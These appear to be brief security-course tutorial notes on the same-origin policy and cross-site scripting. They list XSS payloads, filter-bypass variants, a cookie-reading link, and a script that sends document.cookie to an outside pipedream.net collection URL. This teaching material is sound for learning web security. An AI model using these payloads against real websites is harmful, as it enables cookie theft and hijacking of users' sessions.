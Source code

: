 # Tutorial 7

SOP limits an origin's 'resources' (e.g. scripts) so they can't run wild and interact with other origin's resources!

Make the website interact with only with itself

## XSS Payloads

``` html
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<marquee onstart=alert("1990s")>
```

Bypassing filters

``` html
<script>alert(1)</script> fails
<sCript>alert(1)</sCript>
<scr<script>ipt>alert(1)</script>
```

<https://owasp.org/www-community/xss-filter-evasion-cheatsheet>

Stealing cookies:

Use burp to bypass any length restrictions:

``` html
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
```

Exfiltration:

``` html
<script>document.write('<img src="https://no0mubyk0uwwe.x.pipedream.net/?c='+document.cookie+'')</script>
```
